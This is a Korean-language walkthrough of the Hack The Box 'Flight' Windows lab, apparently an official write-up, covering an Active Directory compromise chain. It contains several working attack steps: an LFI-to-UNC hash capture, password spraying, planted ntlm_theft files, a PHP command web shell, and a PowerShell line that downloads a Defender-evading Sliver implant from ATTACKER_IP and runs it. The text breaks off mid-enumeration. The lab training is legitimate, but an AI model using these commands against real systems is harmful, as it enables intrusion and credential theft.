





**날짜:** 2022년 11월 16일 / 문서 번호 D22.100.214
**작성자:** amra
**머신 제작자:** Geiseric & JDgodd
**난이도:** 어려움 (Hard)
**분류:** 공식 (Official)

### 개요 (Synopsis)
Flight는 두 개의 다른 가상 호스트(virtual hosts)가 있는 웹사이트로 시작하는 어려운 난이도의 Windows 머신이다. 그중 하나는 LFI(로컬 파일 포함) 취약점이 있어서 공격자가 NTLM 해시를 탈취할 수 있다. 이 해시를 크랙하여 얻은 평문 비밀번호를 유효한 사용자 이름 목록에 스프레이(spray) 공격하면 비밀번호 재사용 사례를 발견할 수 있다.

공격자가 `s.moon` 사용자로 SMB에 접근 권한을 얻으면 다른 사용자들이 접근하는 공유 폴더에 파일을 쓸 수 있게 된다. 이때 특정 파일들을 사용해 이 공유에 접근하는 사용자들의 NTLMv2 해시를 훔칠 수 있다. 두 번째 해시를 크랙하면 공격자는 웹 파일들을 호스팅하는 공유에 리버스 쉘을 작성하여 권한이 낮은 사용자로서 머신에 쉘을 얻을 수 있다.

이후 `c.bum` 사용자의 자격 증명을 가지고 이 사용자로 쉘을 얻으면, 로컬 호스트(localhost)에서만 수신하도록 설정된 웹 사이트에 aspx 웹 쉘을 작성할 수 있다. Microsoft 가상 계정(Virtual Account)으로서 명령 실행 권한을 얻은 후에는 Rubeus를 실행하여 컴퓨터 계정용 티켓을 얻을 수 있고, 이를 이용해 DCSync 공격을 수행하여 최종적으로 Administrator 사용자의 해시를 얻게 된다.

### 요구 기술 (Skills Required)
* 열거 (Enumeration)
* 터널링 (Tunneling)
* Kerberos 인증 (Kerberos authentication)

### 습득 기술 (Skills Learned)
* NTLM 탈취 (NTLM theft)
* Windows 서비스 계정 악용 (Abusing Windows Service accounts)
* Defender 우회 (Defender bypass)

---

## 열거 (Enumeration)

### Nmap
먼저 Nmap 스캔을 실행한다.

```bash
ports=$(nmap -p- --min-rate 1000 -T4 -Pn TARGET_IP | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV TARGET_IP
```

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-11-16 21:09:57Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
50422/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: GO; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m02s
```

Nmap 출력을 보면 시스템이 Windows를 사용하고 있으며 열려 있는 포트가 많은 것으로 보아 도메인 컨트롤러(Domain Controller)임을 알 수 있다. 현시점에서는 이 머신에 대한 유효한 자격 증명이 없으므로, Apache 서버가 실행 중인 80번 포트로 주의를 돌려본다.

열거를 시작하기 전에 Nmap 결과에서 `flight.htb`라는 호스트 이름을 확인했으니 `/etc/hosts` 파일을 그에 맞게 수정해 줄게.
```bash
echo "TARGET_IP flight.htb" | sudo tee -a /etc/hosts
```

또한 대상 머신과 7시간의 시간 차이가 있다는 점도 주목할 만하다. 익스플로잇 과정 중 어느 시점에 Kerberos를 사용하게 된다면, 우리 시간을 머신 시간과 반드시 동기화해야 한다.

### Apache - Port 80
`http://flight.htb`에 접속하면 기업의 항공 관련 정적 웹페이지가 나타나.


이 웹페이지의 모든 내용은 정적이고 기능이 없는 것으로 보인다. `ffuf`를 사용해 존재할 수 있는 가상 호스트(Vhost)를 열거해 볼 수 있다.

```bash
ffuf -u "http://flight.htb" -H "Host: FUZZ.flight.htb" -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -t 50 -fw 1546
```

```text
school                  [Status: 200, Size: 3996, Words: 1045, Lines: 91, Duration: 61ms]
```

`school`이라는 새로운 vhost를 발견했다. `/etc/hosts` 파일에 이 새 항목을 추가한다.
```bash
echo "TARGET_IP school.flight.htb" | sudo tee -a /etc/hosts
```



새로운 vhost에 접속해 보면, 이번에는 Home, About Us, Blog 옵션이 실제로 작동하며 `index.php`에 `?view=` 매개변수(parameter)를 사용하여 올바른 페이지를 로드한다. 예를 들어, About Us 페이지를 로드하기 위해 클릭하면 URL은 다음과 같이 보인다.
`http://school.flight.htb/index.php?view=about.html`

URL 구조로 보아 표시할 HTML 페이지가 `view` 매개변수를 통해 `index.php`에 포함되는(included) 것으로 추론할 수 있다. 이런 설정은 대개 로컬 파일 포함(Local File Inclusion, LFI) 공격에 취약하다. `view` 매개변수에 경로를 지정하여 `c:\Windows\System32\drivers\etc\hosts` 파일을 읽어본다.

`school.flight.htb/index.php?view=C:\Windows\System32\drivers\etc\hosts`
> Suspicious Activity Blocked! Incident will be reported

이런 공격을 막기 위한 필터링이 적용되어 있는 것 같다. 일반적으로 필터는 `\` 문자의 사용을 탐지한다. 하지만 Windows에서는 `\`를 `/`로 바꾸더라도 해당 경로에 접근할 수 있다. 수정된 페이로드를 시도한다.

`http://school.flight.htb/index.php?view=C:/Windows/System32/drivers/etc/hosts`



성공적으로 LFI 필터를 우회하여 hosts 파일의 내용을 화면에 출력했다! 이게 Windows 머신이므로 UNC 경로에서 파일을 로드해 볼 수도 있다. 이 방법이 통한다면 우리가 지정한 공유 폴더에 접근하기 위해 머신이 인증(authenticate)을 시도하게 될 것이다. 게다가 Apache 서비스가 실행되는 사용자 권한으로 인증하게 된다. 발생할 수 있는 인증을 가로채기 위해 `Responder`라는 도구를 사용한다.

```bash
responder -I tun0 -v
```

그런 다음 아래 페이로드를 웹 브라우저나 curl로 전송한다.
`http://school.flight.htb/index.php?view=//ATTACKER_IP/htb`

```text
[SMB] NTLMv2-SSP Client   : TARGET_IP
[SMB] NTLMv2-SSP Username : flight\svc_apache
[SMB] NTLMv2-SSP Hash     : svc_apache::flight:072b020099865716:149C465E92574B3BF94A8917B044F1DB:0101000000000000801BED9496CCDC0122C1E76A8FB3D2110000000002000800430045003800420001001E00570049004E002D00320037004A003000340042004100370053004C00480004003400570049004E002D00320037004A003000340042004100370053004C0048002E0043004500380042002E004C004F00430041004C000300140043004500380042002E004C004F00430041004C000500140043004500380042002E004C004F00430041004C0007000800801BED9496CCDC010600040002000000080030003000000000000000000000000030000055B2A4D0654FFC90205F15FC7DE419B60E71FE6858CA7C2D35441601E380DE370A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00390036000000000000000000
```

실제로 `svc_apache` 사용자의 해시를 확보했다! 이제 `john`을 사용해 이 해시를 크랙할 수 있다.

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

성공적으로 크랙되어 평문 비밀번호 `S@Ss!K@*t13`를 확보했다.

---

## 초기 침투 (Foothold)

유효한 자격 증명 세트를 얻었으니, `svc_apache` 사용자가 SMB의 공유 폴더에 접근할 수 있는지 확인하여 열거를 계속한다.

```bash
smbmap -H flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13'

[+] IP: TARGET_IP:445      Name: flight.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Shared                                                  READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
        Web                                                     READ ONLY

```


아쉽게도 `svc_apache` 사용자는 어떤 공유에도 쓸(WRITE) 권한이 없다. 시스템에 존재하는 사용자 목록을 가져와서 열거를 계속한다. 이를 위해 `impacket-lookupsid`를 사용할 수 있다.

```bash
impacket-lookupsid svc_apache:'S@Ss!K@*t13'@'flight.htb'
```

```text
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Brute forcing SIDs at flight.htb
[*] StringBinding ncacn_np:flight.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4078382237-1492182817-2568127209
<SNIP>
1602: flight\S.Moon (SidTypeUser)
1603: flight\R.Cold (SidTypeUser)
1604: flight\G.Lors (SidTypeUser)
1605: flight\L.Kein (SidTypeUser)
1606: flight\M.Gold (SidTypeUser)
1607: flight\C.Bum (SidTypeUser)
1608: flight\W.Walker (SidTypeUser)
1609: flight\I.Francis (SidTypeUser)
1610: flight\D.Truff (SidTypeUser)
1611: flight\V.Stevens (SidTypeUser)
1612: flight\svc_apache (SidTypeUser)
1613: flight\O.Possum (SidTypeUser)
1614: flight\WebDevs (SidTypeGroup)
```

이제 유효한 사용자 이름 목록을 얻었다. `svc_apache` 계정은 Apache 서비스를 실행하기 위해 생성되었으므로, 이 서비스 계정을 만든 사용자가 개인 비밀번호를 재사용했을 가능성이 아주 높다. 우리가 확보한 사용자 이름 목록을 대상으로 비밀번호 스프레이(password spray) 공격을 시도하여 `svc_apache`의 비밀번호가 재사용되었는지 확인할 수 있다.

먼저 다음 내용(위의 사용자 목록)을 담은 `users`라는 파일을 생성한다.
그런 다음 `crackmapexec`를 사용해 비밀번호 스프레이를 실행한다.

```bash
crackmapexec smb flight.htb -u users -p 'S@Ss!K@*t13'
```

```text
SMB         flight.htb      445    GO               [*] Windows 10.0 Build 17763 x64 (name:GO) (domain:flight.htb)
SMB         flight.htb      445    GO               [+] flight.htb\S.Moon:S@Ss!K@*t13
```

`S.Moon` 사용자가 일치하는 것을 확인했다! `smbmap`을 한 번 더 실행하여 이 사용자로 SMB에서 얻은 새로운 권한이 있는지 확인한다.

```bash
smbmap -H flight.htb -u 'S.Moon' -p 'S@Ss!K@*t13'

[+] IP: TARGET_IP:445      Name: flight.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Shared                                                  READ, WRITE
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
        Web                                                     READ ONLY
```

이제 `Shared` 공유 폴더에 쓰기(WRITE) 권한이 생겼다. `impacket-smbclient`를 사용해 이 공유 안에 무엇이 있는지 확인한다.

```bash
impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb
# use Shared
# ls
```

이 공유 폴더는 완전히 비어 있다.

---

## 수평적 권한 이동 (Lateral Movement)

이 시점에서 `s.moon` 사용자로 전환했지만, 비어 있는 `Shared` 공유에 대한 쓰기 권한만 얻었을 뿐이다. 공유 이름으로 미루어 볼 때 여러 사용자가 이 공유에 접근할 가능성이 높다.

Windows에서는 디렉터리에 놓인 많은 파일들이 누군가 해당 디렉터리에 접근할 때 자동으로 "실행"된다. 이 파일들은 특정 리소스를 위해 네트워크 공유를 가리키고 있을 수 있으며, 이로 인해 머신이 해당 리소스에 접근하기 위해 인증을 시도하게 만들 수 있다. 실제로 폴더에 접근하기만 해도 사용자의 NTLMv2 해시를 훔칠 수 있는 잠재력을 가진 파일들을 생성하는 `ntlm_theft`라는 도구가 있다.

https://github.com/Greenwolf/ntlm_theft

따라서 가장 먼저 Responder를 설정하여 잠재적인 인증 요청을 가로채도록 한다.
```bash
responder -I tun0 -v
```

그런 다음 `ntlm_theft` 도구를 복제하고 악성 파일들을 생성한다.
```bash
$ git clone https://github.com/Greenwolf/ntlm_theft
$ cd ntlm_theft
$ python ntlm_theft.py --generate all --server ATTACKER_IP --filename htb
/home/kali/Desktop/htb/ad/flight/ntlm_theft/ntlm_theft.py:168: SyntaxWarning: invalid escape sequence '\l'
  location.href = 'ms-word:ofe|u|\\''' + server + '''\leak\leak.docx';
Created: htb/htb.scf (BROWSE TO FOLDER)
Created: htb/htb-(url).url (BROWSE TO FOLDER)
Created: htb/htb-(icon).url (BROWSE TO FOLDER)
Created: htb/htb.lnk (BROWSE TO FOLDER)
Created: htb/htb.rtf (OPEN)
Created: htb/htb-(stylesheet).xml (OPEN)
Created: htb/htb-(fulldocx).xml (OPEN)
Created: htb/htb.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: htb/htb-(handler).htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: htb/htb-(includepicture).docx (OPEN)
Created: htb/htb-(remotetemplate).docx (OPEN)
Created: htb/htb-(frameset).docx (OPEN)
Created: htb/htb-(externalcell).xlsx (OPEN)
Created: htb/htb.wax (OPEN)
Created: htb/htb.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: htb/htb.asx (OPEN)
Created: htb/htb.jnlp (OPEN)
Created: htb/htb.application (DOWNLOAD AND OPEN)
Created: htb/htb.pdf (OPEN AND ALLOW)
Created: htb/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: htb/htb.library-ms (BROWSE TO FOLDER)
Created: htb/Autorun.inf (BROWSE TO FOLDER)
Created: htb/desktop.ini (BROWSE TO FOLDER)
Created: htb/htb.theme (THEME TO INSTALL

```

도구는 괄호 안에 파일을 트리거하기 위해 어떤 상호 작용이 필요한지 알려준다. 가장 적은 상호 작용이 필요한, 단순히 해당 폴더를 탐색(`BROWSE TO FOLDER`)하는 것만으로 실행되는 파일들에 먼저 집중한다.
다음 단계는 `(BROWSE TO FOLDER)` 요구 사항이 있는 모든 파일을 `Shared` 공유에 업로드하는 것이다.

```bash
impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb
# use Shared
# put htb/htb.scf
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
# put htb/desktop.ini
```

몇 번의 시행착오 끝에 `.ini` 확장자를 가진 파일만 이 공유에 허용된다는 것을 알 수 있다. 그래도 머지않아 Responder에서 해시를 획득하게 된다.

```text
[SMB] NTLMv2-SSP Client   : TARGET_IP
[SMB] NTLMv2-SSP Username : flight.htb\c.bum
[SMB] NTLMv2-SSP Hash     : c.bum::flight.htb:be159f225d912251:DBFDFCAFABC1D81283A7C6D60B77353E:0101000000000000801BED9496CCDC01DAA3BADBD2060F730000000002000800430045003800420001001E00570049004E002D00320037004A003000340042004100370053004C00480004003400570049004E002D00320037004A003000340042004100370053004C0048002E0043004500380042002E004C004F00430041004C000300140043004500380042002E004C004F00430041004C000500140043004500380042002E004C004F00430041004C0007000800801BED9496CCDC0106000400020000000800300030000000000000000000000000300000A54A44DA712C4F98621EF2BA83B0ABF264C95F22BDE9DD71054FB78943B8167F0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00390036000000000000000000
```

다시 한 번 `john`을 사용해 `c.bum` 사용자의 해시 크랙을 시도한다.
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

해시가 `Tikkycoll_431012284`로 성공적으로 크랙되었다! 다시 한 번 SMB에서 이 사용자로 어떤 새로운 권한을 얻었는지 확인한다.

```bash
smbmap -H flight.htb -u 'c.bum' -p 'Tikkycoll_431012284'

[+] IP: TARGET_IP:445       Name: flight.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Shared                                                  READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
        Web                                                     READ, WRITE
```


`Web` 공유에 대한 쓰기(WRITE) 권한을 얻었다! 익스플로잇을 진행하기 전에 `Users/C.bum/Desktop` 경로에서 사용자 플래그(user flag)를 먼저 가져오자.
(smbclient를 통해 `user.txt` 다운로드 성공)

---

## 권한 상승 (Privilege Escalation)

이제 쓰기 권한이 있는 Web 공유 내부를 살펴본다.

```bash
impacket-smbclient c.bum:'Tikkycoll_431012284'@flight.htb
# use Web
# ls
drw-rw-rw-          0  Wed Apr 15 13:12:01 2026 .
drw-rw-rw-          0  Wed Apr 15 13:12:01 2026 ..
drw-rw-rw-          0  Wed Apr 15 13:12:01 2026 flight.htb
drw-rw-rw-          0  Wed Apr 15 13:12:01 2026 school.flight.htb
```

디렉터리를 확인해 보면 `flight.htb` 및 `school.flight.htb`의 웹 루트 폴더에 쓰기 권한이 있는 것 같다. 아주 간단한 PHP 쉘을 업로드해서 최종적으로 머신에서 코드 실행(code execution)을 얻어본다.

```php
<?php
echo system($_GET['c']);
?>
```

```bash
impacket-smbclient c.bum:'Tikkycoll_431012284'@flight.htb
# use Web
# cd flight.htb
# put shell.php
```
*(참고: 웹 서버에서 주기적으로 쉘이 삭제되므로 Not Found 오류가 발생하면 쉘 파일을 다시 업로드해야 해.)*

이제 `curl`을 사용해 코드를 실행할 수 있다.
```bash
curl 'http://flight.htb/shell.php?c=whoami'
flight\svc_apache
```

코드 실행에 성공했지만 더 안정적인 쉘이 필요하다. 우리는 `sliver` C2 프레임워크를 사용할 것이다. Sliver는 기본적으로 생성된 임플란트(implants)를 난독화해주기 때문에, Windows Defender가 설치되어 있는 경우에도 탐지되지 않고 실행할 수 있는 아주 좋은 옵션이다.

sliver를 설치한 후, 임플란트를 생성하고 리스너를 시작한다.
```bash
sliver > generate --os windows --arch 64bit --mtls ATTACKER_IP --reconnect 60 --save htb.exe
sliver > mtls
```

그런 다음 Python 서버를 설정하여 임플란트를 호스팅한다.
```bash
sudo python3 -m http.server 80
```

웹 쉘을 사용하여 임플란트를 다운로드하고 실행시켜.
```bash
curl 'http://flight.htb/shell.php?c=powershell%20-c%20%22wget%20ATTACKER_IP%2Fhtb.exe%20-usebasicparsing%20-outfile%20C%3A%5Cusers%5Cpublic%5Cmusic%5Chtb.exe%3B%20C%3A%5Cusers%5Cpublic%5Cmusic%5Chtb.exe%22'
```

전송이 완료되면 sliver 리스너로 세션이 돌아오는 것을 확인할 수 있다.
```bash
[*] Session 838062ad WATERY_EXTENSION - TARGET_IP:60421 (g0) - windows/amd64 - Wed, 15 Apr 2026 06:35:13 EDT

[127.0.0.1] sliver > sessions -i 838

[*] Active session WATERY_EXTENSION (838062ad)

[127.0.0.1] sliver (WATERY_EXTENSION) > whoami

Logon ID: flight\svc_apache
[*] Current Token ID: flight\svc_apache
```

원격 머신과 상호 작용할 좋은 쉘을 얻었지만, 이전에 `c.bum` 사용자로 얻었던 권한은 아직 반영되지 않은 상태다. 우리는 `c.bum`의 자격 증명을 가지고 있으므로 `RunasCs`를 사용하여 `c.bum` 권한으로 새 sliver 세션을 얻을 수 있다.

https://github.com/antonioCoco/RunasCs
https://github.com/antonioCoco/RunasCs/releases

```bash
sliver (PROTECTIVE_MARBLE) > upload /opt/RunasCs.exe
sliver (PROTECTIVE_MARBLE) > shell
PS C:\xampp\htdocs\flight.htb> .\RunasCs.exe c.bum Tikkycoll_431012284 -l 2 "C:\users\public\music\htb.exe"
```

드디어 `c.bum` 사용자로 새로운 세션을 얻었다! 계속해서 머신을 열거한다.
```bash
PS C:\Windows\system32> whoami /all
whoami /all

USER INFORMATION
----------------

User Name    SID                                           
============ ==============================================
flight\c.bum S-1-5-21-4078382237-1492182817-2568127209-1607


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                        
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Group used for deny only                          
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
flight\WebDevs                             Group            S-1-5-21-4078382237-1492182817-2568127209-1614 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
[*] Current Token ID: flight\C.Bum
```

그룹 목록을 확인해 보면 `c.bum` 사용자가 `WebDevs`라는 기본이 아닌 그룹의 멤버임을 알 수 있다. 게다가 `C:\inetpub` 디렉터리가 보이는데, 이는 시스템에 IIS 서버도 존재함을 나타내. `Get-NetTCPConnection -State Listen`의 출력을 보면 8000번 포트도 수신(listening) 중이며 이는 기본 포트가 아니다.
```
PS C:\Windows\system32> Get-NetTCPConnection -State Listen
Get-NetTCPConnection -State Listen

